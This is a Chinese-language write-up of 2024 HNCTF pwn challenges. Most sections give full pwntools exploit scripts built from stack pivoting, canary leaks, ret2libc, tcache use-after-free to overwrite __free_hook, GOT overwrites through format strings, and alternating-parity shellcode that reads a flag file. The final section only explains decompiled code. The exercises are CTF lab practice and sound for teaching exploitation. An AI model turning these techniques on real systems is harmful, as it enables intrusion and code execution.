# 2024 HNCTF PWN (close ezpwn idea what beauty)


##  close

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  puts("**********************************");
  puts("*     Welcome to the H&NCTF!     *");
  puts("**********************************");
  puts("*             *****              *");
  puts("*            *     *             *");
  puts("*           *  o o  *            *");
  puts("*          *    v    *           *");
  puts("*         *  *     *  *          *");
  puts("*         * * * * * * *          *");
  puts("**********************************");
  puts("*      Do you know close?        *");
  puts("**********************************");
  close(1);
  system("/bin/sh");
  return 0;
}
```
关闭了标准输出，重定向即可

```bash
exec 1>&0
exec 1>&2

```

## ezpwn
###  代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome to H&NCTF, my friend. What's your name?");
  vul();
  return 0;
}
```

```c
int vul()
{
  char s[40]; // [esp+0h] [ebp-2Ch] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```

### 利用

1. 泄露 rbp 的内容（泄露栈地址），从而得到当前 buffer 在栈上的地址
2. 再次输入：构造 gadget 并溢出 rbp，将 rbp 修改为函数退出后 main 函数 leave; ret 栈迁移所用的地址，即 buffer 上的地址，从而执行 buffer 上的 ROP 链（执行 system("/bin/sh")）


### exp

```python
from pwn import *
#p=process("./pwn")
p=remote("hnctf.imxbt.cn",*)
#gdb.attach(p)
#pause()
context(arch="amd64")
getflag=p32(0x0804857D)
p.sendlineafter(b"What's your name?\n",b"\x11"*43)
p.recvuntil(b"\n")  
rbp=p.recv(4)#泄漏rbp的值，即栈地址
rbp=int.from_bytes(rbp,byteorder="little")-0x14-20
print("rbp ",hex(rbp))
pop_edi=p32(0x080486ca)  #0x080486ca
binsh=p32(rbp+20)
p.sendafter(b"\n",b"\x11"*24+p32(rbp+8)+getflag+binsh+b"/bin/sh\x00"+p32(rbp+8))
p.interactive()

```
## idea

没有随机化，GOT 表可写
### 代码

```c
int vuln()
{
  int v1; // [esp+8h] [ebp-30h]
  char nptr[32]; // [esp+Ch] [ebp-2Ch] BYREF
  unsigned int v3; // [esp+2Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("How many bytes do you want me to read? ");
  get_n((int)nptr, 4u);
  v1 = atoi(nptr);
  if ( v1 > 32 )                                // 负数绕过
    return printf("No! That size (%d) is too large!\n", v1);
  puts("Ok, sounds good. I'll give u a gift!");
  gift();                                       // 格式化字符串
  printf("Give me %u bytes of data!\n", v1);
  getchar();
  get_n((int)nptr, v1);                         // 溢出
  return printf("What you said is: %s\n", nptr);
}
```


利用格式化字符串泄露 canary，然后溢出修改，构造 ROP 链泄露 libc 地址，再返回 vuln 函数再次 ROP，将返回地址覆盖为 system
### exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
p = process('./vuln')
elf=ELF("./vuln")
context.terminal = ['tmux','splitw','-h']

gdb.attach(p,"b main")
p.sendlineafter(b"How many bytes do you want me to read? ",str(-1))
p.sendlineafter(b"Ok, sounds good. I'll give u a gift!",b"%7$p")
p.recvuntil(b"\n")
canary=p.recv(10)
print("canary",canary)
canary=int(canary,16)
print("canary",hex(canary))
vuln=0x08048713
print(hex(elf.plt["puts"]))
print(hex(elf.got["puts"]))
payload=32*b"a"+p32(canary)+12*b"a"+p32(elf.plt["puts"])+p32(vuln)+p32(elf.got["puts"])
p.sendlineafter(b"bytes of data!",payload)

puts_addr = u32(p.recv(4))


libc = LibcSearcher("puts",puts_addr)
libcbase = puts_addr - libc.dump('puts')
system_addr = libcbase + libc.dump('system')
str_bin_sh = libcbase + libc.dump('str_bin_sh')

p.sendlineafter(b"How many bytes do you want me to read? ",str(-1))
p.sendlineafter(b"Ok, sounds good. I'll give u a gift!",b"%7$p")
payload=32*b"a"+p32(canary)+12*b"a"+p32(system)+p32(0)+p32(str_bin_sh)
p.sendlineafter(b"bytes of data!",payload)
p.interactive()


```

## what









size 不受限制，free 后没有清空指针（UAF），atoi 可以输入负数，造成越界读写
UAF 后 show 泄露 libc 地址，然后申请两个 tcachebin chunk，分配到 free_hook-8 处，写入 /bin/sh 和 system 地址

### exp

```c
from pwn import *
context(os='linux', arch='i386', log_level='debug')
p = process('./what')
elf=ELF("./what")
gdb.attach(p,"b main")
def add(size):
    p.sendlineafter(b"Enter your command:",str(1))
    p.sendlineafter(b"size",str(size))
def free():
    p.sendlineafter(b"Enter your command:",str(2))
def show(index):
    p.sendlineafter(b"Enter your command:",str(3))
    p.sendlineafter(b"please enter idx:",str(index))
def edit(index,content):
    p.sendlineafter(b"Enter your command:",str(4))
    p.sendlineafter(b"please enter idx:",str(index))  
    p.sendlineafter(b"Please enter your content:",content)


add(0x410)
add(0x10)
add(0x10)
free()
free()
free()
show(0)
p.recvuntil(b"Content:")
libc=u64(p.recv(6).ljust(8,b"\x00"))
print("libc",hex(libc))
system_addr=libc-0x39c880
free_hook=libc+0x1c48
edit(1,p64(free_hook-8))
add(0x410)
add(0x10)
add(0x10)
payload=b"/bin/sh\x00"+p64(system_addr)
edit(2,payload)
free()
p.interactive()
```


##  beauty libc 2.35


### 解决 IDA 中文乱码


### 代码

存在越界写：直接向上方的 GOT 表写入低字节造成偏移，这样下次调用该函数时就可以触发其他漏洞


如果把 atoi 的 GOT 表项改成 printf，就可以造成栈上的格式化字符串


### 思路

要进入格式化字符串需要 s1=yes。利用 int 赋值给 char 会截断的特点，绕过检查，使其等于 0x73 时返回 0。然后利用格式化字符串泄露地址，并循环再次触发格式化字符串漏洞


将 printf 的 GOT 表项最后一个字节修改为 0x70




同时将格式化字符串转换为字节流：`f"%{v}c%8$hhn".encode().ljust(0x10,b"a")`
写零字节怎么办？直接用 `%8$hhn` 即可

> `%0c` 是 printf 系列函数中的格式说明符，用于输出单个字符。在 `%0c` 中，`0` 作为填充字符在这里实际上没有效果，因为 %c 本身只处理一个字符，无论前面的数字是多少，它都只输出一个字符，或者在字符不存在时不输出（即什么也不打印）。因此，`%0c` 与 `%c` 的效果相同：都根据提供的参数输出单个字符。


###  exp

```python
from pwn import *
 
context(arch='amd64', os='linux',log_level='debug')
p=process("./pwn")
libc = ELF('./libc.so.6')
elf = ELF('./pwn')

# gdb.attach(p)

def vuln_printf(payload):
    p.sendlineafter(b"Would you choose me if you had to do it all over again?",str(0x79))
    p.sendline(str(0x65))
    p.sendline(str(0x173))
    p.sendlineafter(b"How many years will you be with me this time???\n",payload)                  


def bre():
    p.sendlineafter("4. 彭仙女\n",str(4))
    p.sendline(str(0x73))

p.sendlineafter(b"Please input your idx:\n",str(-0xf8))
p.sendlineafter(b"Please input your name:\n",b"a"*0x6f)

p.sendlineafter("4. 彭仙女\n",str(4))
vuln_printf(b"%9$p %13$p %23$p ")  
stack=int(p.recvuntil(" ",drop=True),16)+0x28
elf.address=int(p.recvuntil(" ",drop=True),16)-0x18b2
libc.address=int(p.recvuntil(" ",drop=True),16)-0x29d90

pop_rdi_ret=0x000000000002a3e5+libc.address
ret=0x000000000002a3e6+libc.address
print(hex(stack),hex(elf.address),hex(libc.address))

binsh=next(libc.search(b'/bin/sh\0'))
payload=p64(ret)+p64(pop_rdi_ret)+p64(binsh)+p64(libc.sym["system"])
for i,v in enumerate(payload):
    if v==0:
        p.sendlineafter("4. 彭仙女\n",str(4))
        fmt= b"%8$hhn".ljust(0x10,b"a")+p64(stack+i)
        vuln_printf(fmt)
    else :
        p.sendlineafter("4. 彭仙女\n",str(4))
        fmt= f"%{v}c%8$hhn".encode().ljust(0x10,b"a")+p64(stack+i)
        vuln_printf(fmt)
bre()
p.interactive()


```




# 2024 HNCTF PWN 题解（hide_flag、Rand_file_dockerfile、Appetizers、TTOCrv_）


## 参考资料
[https://docs.qq.com/doc/p/641e8742c39d16cd6d046b18bcb251fd3ab0cd6d](https://docs.qq.com/doc/p/641e8742c39d16cd6d046b18bcb251fd3ab0cd6d)
## hide_flag


open+pread+write 即可

> pread 是 Linux 和其他类 UNIX 系统中用于文件输入/输出的高级函数，允许应用程序在读取时指定相对于文件开头的绝对偏移。
> ssize_t pread(int fd, void *buf, size_t count, off_t offset);



 字节码必须与所在位置索引具有相同的奇偶性，即遵循偶-奇-偶-奇的顺序。
 因此，像 syscall 这样连续两个字节都是奇数的指令不可用；只能使用 call 调用函数（jmp 不方便返回）。
 
 

### 思路
刚进入 shellcode 时残留的寄存器和栈内容：


 
- pop push  add sub  mov  xchg cmp shl xor call nop
- 如果必须连续出现两个偶数字节或两个奇数字节，就填入一条不影响结果的其他指令，以满足偶奇交替的要求。
- 利用残留的寄存器和栈内容，在寄存器中拼出地址，再 call 该寄存器。

### 利用脚本
```python
from pwn import *
 
context(arch='amd64',os="linux",log_level='debug')
libc = ELF('./libc.so.6')
 
p = process('./pwn')

gdb.attach(p) 
pause()

#F1@g520


#open()
pay = ''
#rax + 0xea750
#       58      59      58      59       58       59 
pay += 'pop rax;pop rcx;pop rax;pop rcx; pop rax; pop rcx;'  #rax = 0x00007ffff7c29d90
#       4805  6ea70e01      482d 00010001       4883 c071      4883 c073 
pay += 'add rax,0x010ea76e; sub rax,0x01000100; add rax,0x71; add rax,0x73; '  #rax + 0xf4d10
#       2c 01        2c 01        50       xx
pay += 'sub al,0x1; sub al,0x1; push rax;cmp eax,0x33323130;'  #rax = libc_open
#       48b9 4631 4067 3633 3001 (F1@g520)    6a01     58      3d 3031 3233       48c1e02d   48c1e003  4891          4829c8      xx
pay += 'mov rcx,0x0130333667403146; push 0x1;pop rax;cmp eax,0x33323130;shl rax,53;shl rax,3;xchg rax,rcx; sub rax,rcx;cmp eax,0x33323130;'
#       4891          6a01     58      3d 3031 3233       48c1e025   48c1e003  4891          4829c8 
pay += 'xchg rax,rcx; push 0x1;pop rax;cmp eax,0x33323130;shl rax,37;shl rax,3;xchg rax,rcx; sub rax,rcx;cmp eax,0x33323130; '
pay += 'xchg rax,rcx; push 0x1;pop rax;cmp eax,0x33323130;shl rax,29;shl rax,3;xchg rax,rcx; sub rax,rcx;cmp eax,0x33323130; '
#       56      59      50                            54        5f       4889f0       51
pay += 'pop rsi;pop rcx;push rax; cmp eax,0x33323130; push rsp; pop rdi; mov rax,rsi; push rcx;'  #rdi->F1@g520\0
#       4831f6                           
pay += 'xor rsi,rsi;' #rsi = 0
#       ffd0       open(buf,0)
pay += 'call rax;'  #call rax
 


#pread rax = rcx - 0x1e0b
#       51       58      51        662d 001f       4883c059
pay += 'push rcx;pop rax;push rcx; sub ax, 0x1f00;add rax,89;add rax,89; add rax,67;' #rax=pread64
#       6a 03    90   5f      6a71      5a      53        90   59       90
pay += 'push 3; nop; pop rdi;push 0x71;pop rdx;push rbx; nop; pop rcx; nop;' #rdi=3, rdx=0x71
#       ffd0       open(buf,0)
pay += 'call rax;'  #call rax
 


#write rax = rcx+0x2126
#       51       58      51        662d2621      
pay += 'push rcx;pop rax;push rcx; add ax, 0x2126;' #rax=pread64
#       6a01   90  5f      90
pay += 'push 1;nop;pop rdi;nop;'
#       ffd0       open(buf,0)
pay += 'call rax;'  #call rax
 
 
p.sendafter(b"Please find flag's name\n", asm(pay))
 
p.interactive()

```


## Rand_file_dockerfile libc 2.31

open 被禁用，且 read 的文件描述符被限制为不大于 2。直接用 close 关闭 stderr，就可以读取新打开的文件：close+openat+read+write




```c
ptr ^= __readfsqword(0x28u);
```
这一行从线程特定的位置读取一个 64 位值，并与 `ptr` 异或。`__readfsqword` 是一种特殊的内联汇编内建函数，用于读取 `FS` 段寄存器所指向的地址加上偏移 `0x28` 处的 64 位值。`FS` 段寄存器通常用于访问当前线程的非分页内存区域，例如 TLS（线程局部存储）。

```c
for ( i = 0; i <= 3; ++i )
{
  v4 = *((_BYTE *)&ptr + i);
  *((_BYTE *)&ptr + i) = *((_BYTE *)&ptr + 7LL - i);
  *((_BYTE *)&ptr + 7LL - i) = v4;
}
```
这是一个用于反转 `ptr` 字节顺序的循环。`ptr` 是 64 位变量，由 8 个字节组成。循环遍历第 0 到第 3 个字节（即前半部分），每次迭代执行以下操作：
- 将当前字节的值保存在 `v4` 中。
- 将当前字节与末尾对应的字节交换，即交换位置 `i` 和 `7 - i` 的字节。
- 将 `v4` 赋给位置 `7 - i` 的字节，完成字节交换。

由于循环只执行 4 次，而 64 位值共包含 8 个字节，前 4 个字节和后 4 个字节分别在循环的前后两部分（后半部分未显示）中交换，从而反转整个 64 位值的字节顺序。

```c
fwrite(&ptr, 1uLL, 8uLL, stdout);
fflush(stdout);
```
这两行将反转后的 `ptr` 值写入标准输出流 `stdout`。`fwrite` 的第一个参数是指向待写入数据的指针，第二个参数是每个元素的大小（这里每字节为 1），第三个参数是要写入的元素数量（这里是 8），第四个参数是目标文件流。`fflush` 用于刷新输出缓冲区，确保所有数据立即写出。

```c
write(1, "\n", 1uLL);
return 0LL;
```
`write` 函数向文件描述符 1（通常代表标准输出 `stdout`）写入换行符，随后函数返回 `0LL`，表示程序正常结束。


